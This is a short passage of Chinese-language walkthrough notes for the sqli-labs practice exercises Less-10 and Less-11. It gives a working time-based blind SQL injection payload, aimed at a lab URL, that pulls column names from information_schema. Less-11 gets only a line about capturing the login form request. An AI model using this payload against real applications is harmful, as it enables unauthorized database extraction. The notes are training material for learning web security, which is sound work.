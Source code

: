 ****

### Less-10(时间盲注->`"`闭合)

```sql
#除了闭合方式不同,payload同 Less-9
http://8.137.60.154:8082/Less-10/?id=1"and if((substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 0,1),1,1)="i"),sleep(3),1) --+
```

****

### Less-11(post->`'`闭合)

- 看到这种登录框的直接`抓包`

![image-20241007205523210](./assets/image-20241007205523210.png)

![image-20241007205432673](./assets/image-20241007205432673.png)
